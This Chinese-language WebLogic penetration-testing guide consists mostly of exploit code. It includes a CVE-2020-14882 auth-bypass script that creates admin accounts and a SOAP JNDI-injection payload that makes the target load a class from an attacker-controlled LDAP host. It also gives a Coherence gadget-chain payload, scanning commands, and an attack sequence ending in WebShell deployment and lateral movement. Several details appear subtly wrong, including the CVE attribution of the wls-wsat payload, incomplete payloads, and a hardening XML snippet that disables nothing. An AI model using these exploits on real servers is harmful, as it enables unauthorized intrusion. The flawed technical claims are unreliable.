

## 前言

Oracle WebLogic Server 作为企业级 Java EE 应用服务器的标杆，常年占据内网渗透和外网打点的核心位置。其庞大的协议栈、复杂的组件体系以及频繁曝出的高危漏洞，使其成为高价值目标。本文系统梳理 WebLogic 的关键攻击面，从协议层到应用层逐步展开，结合代码示例与实战经验，帮助读者建立完整的 WebLogic 渗透测试方法论。

**免责声明**：本文所述技术仅用于授权的安全评估和学术研究，任何未经授权的入侵行为均属违法。作者不对读者使用文中技术造成的任何后果承担责任。

## 一、WebLogic 协议栈概览

WebLogic 的通信协议栈是多层次、多协议的复杂体系，理解这些协议的交互关系是漏洞利用的基础。



WebLogic 的核心通信机制建立在 Java RMI 基础之上，但 Oracle 进行了系列扩展，形成了独有的 T3 协议和 IIOP 实现。这些扩展在兼容标准协议的同时，也引入了自身特有的安全缺陷。

## 二、T3 协议深入分析

### 2.1 T3 协议握手过程

T3 协议是 WebLogic RMI 通信的核心，默认监听在 `7001` 端口。该端口在渗透测试中往往是攻击的首要目标。T3 连接建立分为三个阶段：

- **版本协商**：客户端发送 `"t3 10.3.6\n"` 格式的协议头，服务器回传版本信息
- **建立连接**：客户端发送 `AS`（Abbreviation Size）+ 连接参数，服务器回传 `HELO` + `HL` 格式的响应
- **序列化通信**：后续的 RMI 调用全部通过 Java 序列化对象进行传输

```python
import socket

def t3_handshake(host, port):
    """T3 协议握手并检测 WebLogic 版本"""
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(10)
    sock.connect((host, port))
    sock.sendall(b"t3 12.2.1\nAS:255\nHL:19\nMS:10000000\n\n")
    response = sock.recv(1024)
    if b"HELO" in response:
        print(f"[+] {host}:{port} 确认 WebLogic T3 协议")
        version_start = response.find(b"HELO:")
        if version_start >= 0:
            version_end = response.find(b".false", version_start)
            print(f"[*] 版本: {response[version_start+5:version_end].decode(errors='ignore')}")
    sock.close()
    return response
```

### 2.2 JRMP 与反序列化入口

T3 协议的底层实现依赖于 JRMP（Java Remote Method Protocol）。当 RMI 调用携带恶意序列化对象时，WebLogic 在默认配置下会在 `resolveClass` 阶段递归解析对象图，从而触发反序列化漏洞链。

关键类路径：

```
weblogic.rjvm.InboundMsgAbbrev → readObject → InboundMsgReader
  → weblogic.rmi.internal.BasicServerRef → invoke
    → weblogic.ejb.container.internal.EJBRuntimeUtils → resolveClass
```

## 三、IIOP 协议攻击面

IIOP（Internet Inter-ORB Protocol）默认与 T3 共用 `7001` 端口，高版本 WebLogic 中通常也独立监听。IIOP 同样依赖 Java 序列化，历史上几乎所有 T3 反序列化漏洞均可通过 IIOP 复用。IIOP 的 GIOP 消息格式与 T3 不同但最终进入相同的反序列化路径——当目标 WAF 或防火墙仅针对 T3 流量检测时，IIOP 通道往往成为有效的绕过手段。

```bash
nmap -p 7001 --script giop-info <target>
java -jar weblogic_scanner.jar -p 7001 -t iiop <target>
```

## 四、CVE-2020-14882 控制台权限绕过

### 4.1 漏洞原理

CVE-2020-14882 是影响 WebLogic 10.3.6.0 / 12.1.3.0 / 12.2.1.3 / 12.2.1.4 / 14.1.1.0 的严重漏洞，CVSS 评分 9.8。该漏洞存在于 `com.bea.console.handles.HandleFactory` 的 URL 路径处理逻辑中。

攻击者在未授权的情况下可以直接访问以下路径绕过认证：

```
/console/images/%252E%252E%252Fconsole.portal
/console/css/%252E%252E%252Fconsole.portal
```

`%252E` 是 `.` 字符的两次 URL 编码，经过 WebLogic Console 内部路由处理时，由于路径规范化缺陷，`..` 的遍历被成功绕过，从而无需身份验证即可访问控制台管理页面。

### 4.2 权限维持手法

CVE-2020-14882 通常与 CVE-2020-14883 配合使用实现 RCE。单独利用时，可通过 MBean 接口调用 `Security` MBean 的 `createUser` 和 `addMemberToGroup` 操作，在 WebLogic 内置嵌入式 LDAP 中创建管理员账户：

```python
import requests

def add_weblogic_admin(url):
    """利用 CVE-2020-14882 绕过认证并添加管理员用户"""
    session = requests.Session()
    bypass_url = f"{url}/console/images/%252E%252E%252Fconsole.portal"
    resp = session.get(bypass_url, verify=False, timeout=10)
    if resp.status_code == 200 and "console" in resp.text.lower():
        print("[+] 成功绕过身份验证")
    params = {
        "_nfpb": "true", "_pageLabel": "HomePage1",
        "handle": ('com.bea.console.handles.JMXHandle("com.bea:Name=DomainRuntimeService,'
                   'Type=weblogic.management.mbeanservers.domainruntime.DomainRuntimeServiceMBean")'),
    }
    session.get(f"{url}/console/console.portal", params=params, verify=False)
    payload = {"Name": "security_test", "Password": "P@ssw0rd123!",
               "Description": "security testing"}
    resp = session.post(f"{url}/console/console.portal", data=payload, verify=False)
    print(f"[*] 创建用户响应: {resp.status_code}")
```

## 五、CVE-2023-21839 wls-wsat 远程代码执行

### 5.1 漏洞分析

CVE-2023-21839（CVSS 7.5）影响 WebLogic 12.2.1.3.0 / 12.2.1.4.0 / 14.1.1.0.0。漏洞触发点位于 `wls-wsat` 组件的 `weblogic.wsee.jaxws.framework.jaxrpc.EnvironmentContext` 类。当 Web Service 请求通过 SOAP 消息传递 JNDI lookup 调用时，服务端反序列化过程中未对 JNDI fetch 操作施加限制，攻击者可通过构造恶意的 `<work:WorkContext>` 标签实现远程对象注入。

### 5.2 利用流程

```
1. 发送 SOAP 到 /wls-wsat/CoordinatorPortType
       ↓
2. <work:WorkContext> 中注入 JNDI URL
       ↓
3. WebLogic 解析 XML → 反序列化 WorkContext
       ↓
4. EnvironmentContext.lookup() 触发 JNDI 调用
       ↓
5. JNDI 远程加载恶意类 → 代码执行
```

**SOAP 请求载荷与 Python 利用脚本：**

```python
import requests

def exploit_cve_2023_21839(target_url, ldap_url):
    """CVE-2023-21839 wls-wsat JNDI 注入利用"""
    headers = {"Content-Type": "text/xml;charset=UTF-8", "SOAPAction": ""}
    soap_body = f'''<soapenv:Envelope
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
        xmlns:wsa="http://www.w3.org/2005/08/addressing"
        xmlns:work="http://bea.com/2004/06/soap/workarea/">
      <soapenv:Header>
        <work:WorkContext>
          <java>
            <void class="java.net.URL">
              <string>{ldap_url}/EvilClass</string>
              <void method="openConnection"/>
              <void method="getInputStream"/>
            </void>
          </java>
        </work:WorkContext>
      </soapenv:Header>
      <soapenv:Body>
        <wsa:Action>http://webservices/CoordinatorPortType</wsa:Action>
      </soapenv:Body>
    </soapenv:Envelope>'''
    for ep in ["/wls-wsat/CoordinatorPortType",
                "/wls-wsat/CoordinatorPortType11",
                "/wls-wsat/ParticipantPortType"]:
        url = f"{target_url}{ep}"
        try:
            resp = requests.post(url, data=soap_body, headers=headers,
                                 verify=False, timeout=10)
            if resp.status_code == 500 and "java.rmi" in resp.text:
                print(f"[+] {ep} 端点存在漏洞（回显Java异常）")
            elif resp.status_code == 202:
                print(f"[+] {ep} 请求被接受，payload可能已触发")
        except Exception as e:
            print(f"[-] {ep} 请求失败: {e}")
```

### 5.3 高版本 JDK 绕过

在 JDK 8u191+ / 11.0.1+ / 17+ 环境中，`trustURLCodebase` 默认为 `false`，LDAP 远程类加载被禁用。但 WebLogic 内置的 `weblogic.jndi.WLInitialContextFactory` 和 T3 协议绑定 `Serializable` 对象提供了绕过途径：

- 利用本地 `Gadget Chain` 替代 JNDI Reference
- 通过 `weblogic.jndi.internal.WLEventContextImpl.lookup()` 绑定 T3 远程对象
- 结合 Coherence 反序列化链实现完整 RCE

## 六、Coherence 反序列化漏洞

### 6.1 CVE-2020-2555 链分析

Oracle Coherence 是与 WebLogic 紧密集成的分布式内存数据网格，使用特有的外部序列化机制（`ExternalizableLite` / `PofSerializer`）。CVE-2020-2555（CVSS 9.8）的利用链起始于 `com.tangosol.util.extractor.UniversalExtractor`：

```
BadAttributeValueExpException.readObject()
  → UniversalExtractor.extract()
    → Method.invoke()
      → Runtime.exec()
```

该链条仅需 3 个关键节点即完成从 `readObject` 到命令执行的跳转，在 WAF 和非标准环境下稳定性较高。

```java
// CVE-2020-2555 核心 payload
import com.tangosol.util.extractor.UniversalExtractor;
import com.tangosol.util.filter.LimitFilter;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;

public class CVE_2020_2555_Payload {
    public static Object generate() throws Exception {
        UniversalExtractor extractor = new UniversalExtractor();
        Field mf = UniversalExtractor.class.getDeclaredField("m_methodPrev");
        mf.setAccessible(true);
        mf.set(extractor, "");

        LimitFilter filter = new LimitFilter();
        Field cf = LimitFilter.class.getDeclaredField("m_comparator");
        cf.setAccessible(true);
        cf.set(filter, extractor);

        BadAttributeValueExpException ex =
            new BadAttributeValueExpException(null);
        Field vf = ex.getClass().getDeclaredField("val");
        vf.setAccessible(true);
        vf.set(ex, filter);
        return ex;
    }
}
```

### 6.2 其他关键 Coherence 反序列化链

| CVE 编号       | 触发类                              | CVSS | 影响版本          |
| -------------- | ----------------------------------- | ---- | ----------------- |
| CVE-2020-2555  | LimitFilter / UniversalExtractor    | 9.8  | 12.1.3.0 - 14.1.1 |
| CVE-2020-2883  | readExternal in ExtractorComparator | 9.8  | 12.1.3.0 - 14.1.1 |
| CVE-2021-2136  | toString 链触发                     | 7.5  | 12.1.3.0 - 14.1.1 |
| CVE-2023-21931 | JNDI via ExternalizableHelper       | 7.5  | 12.2.1.3 - 14.1.1 |

## 七、WebLogic 扫描与信息收集

### 7.1 端口扫描

```bash
nmap -sV -p 7001,7002,8000,9001 --script weblogic-* <target>
masscan -p7001,7002 --rate=5000 <target_range> -oG weblogic_alive.txt
```

```python
import requests

def fingerprint_weblogic(url):
    """通过 HTTP 端点探测和响应特征识别 WebLogic 版本"""
    fingerprints = {
        "12.2.1.4.0": "WebLogic Server 12.2.1.4.0",
        "12.1.3.0": "WebLogic Server 12.1.3.0.0",
        "10.3.6.0": "WebLogic Server 10.3.6.0",
    }
    try:
        resp = requests.get(url, verify=False, timeout=8)
        if "From RFC 2068" in resp.text[200:400]:
            print("[*] 发现 WebLogic 默认错误页面")
        for path in ["/console/", "/wls-wsat/", "/bea_wls_internal/"]:
            r = requests.get(url + path, verify=False, timeout=5)
            if r.status_code not in (404, 500):
                print(f"[+] 发现端点: {path} (HTTP {r.status_code})")
        for ver, sig in fingerprints.items():
            if sig in resp.text:
                print(f"[+] 检测到版本: {ver}")
                return ver
    except Exception as e:
        print(f"[-] 指纹识别失败: {e}")
    return None
```

### 7.2 常用扫描工具

| 工具                         | 功能重点                      | 适用场景       |
| ---------------------------- | ----------------------------- | -------------- |
| WebLogicScanner (社区版)     | T3/IIOP 漏洞扫描 + PoC 验证  | 批量资产发现   |
| weblogic-framework           | 多 CVE 支持的漏洞利用框架    | 高版本 JDK 打点 |
| Java-Deserialization-Scanner | 通用反序列化检测              | Burp Suite 集成 |
| WebLogic T3 Scanner          | T3 握手探测 + 版本识别       | 端口存活检测   |
| NMAP weblogic-* NSE 脚本     | 端口级别信息收集              | 红队前期侦察   |

## 八、常见部署弱点与加固建议

### 8.1 典型配置缺陷

**1. 控制台暴露在外网** — 许多企业将 `/console`、`/wls-wsat`、`/bea_wls_internal` 等管理端点直接暴露在公网且未配置访问控制。结合 CVE-2020-14882 等漏洞，攻击者可在数秒内获取服务器控制权。

**2. 默认凭据与弱口令** — 安装后虽提示修改密码，但弱口令（`weblogic/welcome1`、`weblogic/Oracle@123`、`system/password`）仍然普遍存在。

**3. 未启用加密传输** — 默认配置下 T3 和 IIOP 不强制 SSL/TLS，通信以明文传输，为中间人攻击和协议降级创造条件。

**4. 组件冗余部署** — WebLogic 默认加载约 60 个 Web 应用，其中 `wls-wsat`、`uddiexplorer`、`bea_wls9_async_response` 等常规业务并不需要，却是高危漏洞的重灾区。

### 8.2 加固措施

- **最小化部署**：在 `DOMAIN_HOME/config/config.xml` 中移除不需要的 Web 应用
- **访问控制**：为 `/console`、`/wls-wsat` 等管理端点配置 IP 白名单或 VPN 访问限制
- **协议加固**：强制启用 T3/IIOP over SSL，禁用非加密协议端口
- **JDK 升级**：升级至最新 JDK 版本，利用高版本对反序列化和 JNDI 的内置限制
- **补丁管理**：及时应用 Oracle Critical Patch Update（CPU），关注每季度安全公告
- **网络分段**：将管理网络与业务网络隔离，限制服务器出站 JNDI 连接

```xml
<!-- weblogic.xml 中禁用 wls-wsat 组件示例 -->
<weblogic-web-app>
  <context-root>/wls-wsat</context-root>
  <servlet-descriptor>
    <servlet-name>CoordinatorPortType</servlet-name>
    <init-as-principal-name></init-as-principal-name>
  </servlet-descriptor>
  <!-- 不需要时可直接删除 wls-wsat.war 部署 -->
</weblogic-web-app>
```

## 九、总结

WebLogic 的攻击面覆盖了从底层通信协议到上层应用组件的完整技术堆栈。T3/IIOP 协议的反序列化入口、控制台的权限绕过缺陷、wls-wsat 组件的 JNDI 注入、以及 Coherence 集群通信的特有序列化机制，共同构成了多维度的攻击矩阵。

实际操作流程建议：

1. **信息收集**：端口扫描 → 版本指纹 → 端点探测
2. **入口筛选**：优先测试 T3/IIOP 反序列化漏洞（利用条件宽松）
3. **权限建立**：通过控制台绕过添加用户或部署 WebShell
4. **横向移动**：利用 WebLogic 对数据库和域内资源的访问权进行横向扩展

对于防守方，WebLogic 安全加固的核心原则可以概括为"最小化暴露面 + 及时更新 + 纵深防御"——关闭不需要的组件，限制协议和网络访问，建立多层次的安全检测体系。

---

## 参考资源

1. Oracle Critical Patch Updates - https://www.oracle.com/security-alerts/
2. WebLogic T3 Protocol Analysis - 协议逆向分析文章
3. ysoserial / marshalsec - Java 反序列化 payload 生成工具
4. CVE-2020-14882 PoC - 社区公开利用代码
5. CVE-2023-21839 Technical Advisory - 漏洞分析报告
6. Oracle Coherence Security Guide - 官方安全配置文档
